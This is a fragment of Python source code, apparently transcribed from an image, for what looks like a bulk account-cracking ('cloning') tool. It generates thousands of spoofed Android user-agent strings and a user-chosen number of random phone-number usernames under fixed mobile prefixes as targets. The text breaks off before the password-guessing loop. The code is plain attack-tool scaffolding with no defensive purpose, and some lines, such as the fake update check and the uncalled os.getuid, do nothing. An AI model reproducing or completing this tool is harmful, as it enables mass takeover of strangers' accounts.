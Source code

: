     
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' [{xr}^{x}] Example>: {xr}019,017,018,92302,92301,91778{x}')
    print(" ══════════════════════════════════════════")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    rk4 = '017'
    code = random.choice([rk1,rk2,rk3])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):